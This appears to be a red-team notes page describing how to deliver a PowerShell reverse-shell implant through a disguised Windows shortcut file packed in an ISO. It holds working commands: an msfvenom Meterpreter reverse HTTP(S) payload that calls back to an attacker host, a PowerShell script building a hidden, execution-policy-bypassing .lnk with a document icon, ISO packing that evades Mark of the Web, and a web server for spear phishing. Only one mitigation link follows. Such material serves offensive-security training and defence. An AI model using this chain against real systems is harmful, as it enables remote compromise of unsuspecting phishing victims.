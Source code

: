 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - scenarios
  - windows
---
```

# PowerShell Loader via Shortcut LNK

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=80 -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | basenc -d --base64 > implant.ps1
```

Transfer the generated powershell reverse shell to the windows box to create `.lnk` shortcut and pack them into an ISO file

```powershell
PS C:\> $shortcutPath = "[<drive_letter>:]\path\to\directory\file.lnk"  
$WshShell = New-Object -ComObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut($shortcutPath)  
$Shortcut.TargetPath = 'conhost.exe'  
$Shortcut.Arguments = "--headless powershell.exe -noni -nop -ep bypass -file implant.ps1"  
$Shortcut.Description = "A shortcut backdoor"  
$Shortcut.IconLocation = 'C:\path\to\document.docx'  
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload  
$Shortcut.WindowStyle = 7  
$Shortcut.WorkingDirectory = "C:\Users\" + Eenv:USERNAME + "\Public"  
$Shortcut.Save()
```

Pack the files in a container.

```
$ packmypayload [--vhd-filesystem <fat | fat32 | ntfs>] --hide [<drive_letter>:]\path\to\directory\implant.ps1 --out-format iso C:\path\to\directory\ ISO_File.iso
```

Then copy the ISO File to your attacker machine and start a web server to simulate the spear phishing attack then finally you'll see **MOTW (Mark of the Web)** has not contaminated the `.lnk` shortcut file.

```
$ sudo python -m http.server 80
```

---
## References

### Mitigation

- [Malicious.link: Blocking ISO mounting](https://room362.com/posts/2022/blocking-iso-mounting/)